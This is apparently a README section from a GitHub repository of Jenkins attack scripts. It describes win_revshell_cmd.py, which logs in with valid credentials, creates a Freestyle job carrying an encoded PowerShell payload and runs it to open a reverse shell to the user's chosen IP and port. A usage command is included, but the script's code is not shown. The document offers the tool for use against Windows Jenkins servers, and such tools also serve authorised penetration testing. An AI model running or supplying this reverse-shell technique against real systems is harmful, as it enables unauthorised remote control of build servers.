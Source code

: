 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Then configures or BUILD it to "Execute Windows batch command" with the Powershell encoded payload.
![win_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_3.png)
![win_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
